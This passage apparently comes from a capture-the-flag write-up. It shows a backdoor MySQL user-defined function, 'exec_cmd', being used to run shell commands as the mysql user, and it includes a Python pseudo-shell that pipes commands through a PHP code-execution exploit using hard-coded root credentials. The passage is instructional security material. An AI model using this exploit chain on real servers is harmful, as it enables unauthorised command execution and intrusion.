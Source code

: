 Seems like we have a UDF called `exec_cmd` , which very much sounds like a backdoor. Let us try to execute `id`.

```mysql
sql> select exec_cmd("id");
Array
(
    [exec_cmd("id")] => uid=111(mysql) gid=113(mysql) groups=113(mysql)

)
```

We successfully executed code as the user mysql. Let us add this functionality as our final pseudo-shell function.

```python
def bash_shell() -> None:
    """
    Creates a pseudo shell to execute bash-commands as mysql
    """
    print("""Usage:
            {cmd}       ... execute bash command
            exit|quit   ... exit shell""")
    
    while True:
        cmd = input("mysql:~$ ")
        if "exit" in cmd or "quit" in cmd:
            return
        elif cmd.strip() == "":
            clear()
            print("""Usage:
            {cmd}       ... execute bash command
            exit|quit   ... exit shell""")
        
        # Escape input
        cmd = cmd.replace('"', '\\"')
        cmd = cmd.replace("'", "\\'")
        sql = f"select exec_cmd('{cmd}');"

        # PHP code to connect and run sql-statement
        code = f"""
        $conn = new mysqli("localhost", "root", "changethis", "ecom");
        if ($conn->connect_error) {{
            die("Connection failed: " . $conn->connect_error);
        }}
        $result = $conn->query("{sql}");

        if ($result->num_rows > 0) {{
            // output data of each row
            while($row = $result->fetch_assoc()) {{
                // Get output of command and strip new line
                echo str_replace("\n", "", end($row));
            }}
        }}
        $conn->close();
        """
        print(exploit(session, code))
```
